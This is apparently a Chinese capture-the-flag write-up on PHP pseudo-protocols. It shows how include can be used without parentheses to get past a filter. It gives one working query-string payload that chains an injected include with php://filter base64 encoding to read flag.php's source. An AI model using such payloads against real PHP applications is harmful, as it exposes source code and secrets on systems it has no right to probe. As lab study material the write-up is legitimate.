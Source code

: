 # 知识点
### php伪协议
[https://segmentfault.com/a/1190000018991087](https://segmentfault.com/a/1190000018991087)<br />[https://www.cnblogs.com/linfangnan/p/13535097.html#:~:text=PHP%20%E4%BC%AA%E5%8D%8F%E8%AE%AE%20%E6%98%AF%20PHP%20%E6%94%AF%E6%8C%81%E7%9A%84%E5%8D%8F%E8%AE%AE%E4%B8%8E%E5%B0%81%E8%A3%85%E5%8D%8F%E8%AE%AE%EF%BC%8C%E5%87%A0%E4%B8%AA%20PHP%20%E6%94%AF%E6%8C%81%E7%9A%84%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%A6%82%E4%B8%8B%E3%80%82.%20%E4%BE%8B%E5%A6%82%E5%9C%A8,%E6%98%AF%E4%B8%80%E7%A7%8D%E8%AE%BF%E9%97%AE%E6%9C%AC%E5%9C%B0%E6%96%87%E4%BB%B6%E7%9A%84%E5%8D%8F%E8%AE%AE%EF%BC%8C%2Fread%3Dconvert.base64-encode%2F%20%E8%A1%A8%E7%A4%BA%E8%AF%BB%E5%8F%96%E7%9A%84%E6%96%B9%E5%BC%8F%E6%98%AF%20base64%20%E7%BC%96%E7%A0%81%E5%90%8E%EF%BC%8Cresource%3Dindex.php%20%E8%A1%A8%E7%A4%BA%E7%9B%AE%E6%A0%87%E6%96%87%E4%BB%B6%E4%B8%BAindex.php%E3%80%82.%20%E9%97%AE%E4%BB%80%E4%B9%88%E8%A6%81%E8%BF%9B%E8%A1%8C%20base64%20%E7%BC%96%E7%A0%81%E5%91%A2%EF%BC%9F.](https://www.cnblogs.com/linfangnan/p/13535097.html#:~:text=PHP%20%E4%BC%AA%E5%8D%8F%E8%AE%AE%20%E6%98%AF%20PHP%20%E6%94%AF%E6%8C%81%E7%9A%84%E5%8D%8F%E8%AE%AE%E4%B8%8E%E5%B0%81%E8%A3%85%E5%8D%8F%E8%AE%AE%EF%BC%8C%E5%87%A0%E4%B8%AA%20PHP%20%E6%94%AF%E6%8C%81%E7%9A%84%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%A6%82%E4%B8%8B%E3%80%82.%20%E4%BE%8B%E5%A6%82%E5%9C%A8,%E6%98%AF%E4%B8%80%E7%A7%8D%E8%AE%BF%E9%97%AE%E6%9C%AC%E5%9C%B0%E6%96%87%E4%BB%B6%E7%9A%84%E5%8D%8F%E8%AE%AE%EF%BC%8C%2Fread%3Dconvert.base64-encode%2F%20%E8%A1%A8%E7%A4%BA%E8%AF%BB%E5%8F%96%E7%9A%84%E6%96%B9%E5%BC%8F%E6%98%AF%20base64%20%E7%BC%96%E7%A0%81%E5%90%8E%EF%BC%8Cresource%3Dindex.php%20%E8%A1%A8%E7%A4%BA%E7%9B%AE%E6%A0%87%E6%96%87%E4%BB%B6%E4%B8%BAindex.php%E3%80%82.%20%E9%97%AE%E4%BB%80%E4%B9%88%E8%A6%81%E8%BF%9B%E8%A1%8C%20base64%20%E7%BC%96%E7%A0%81%E5%91%A2%EF%BC%9F.)
### include绕过括号过滤
[https://www.php.net/manual/zh/function.include.php](https://www.php.net/manual/zh/function.include.php)
### 不需要括号的语言结构
print echo isset unset include require
# 思路
```git
?c=include$_GET["url"]?>&url=php://filter/convert.base64-encode/resource=flag.php
```
![image.png](./images/20231017_2350424489.png)<br />base64解码<br />![image.png](./images/20231017_2350435962.png)
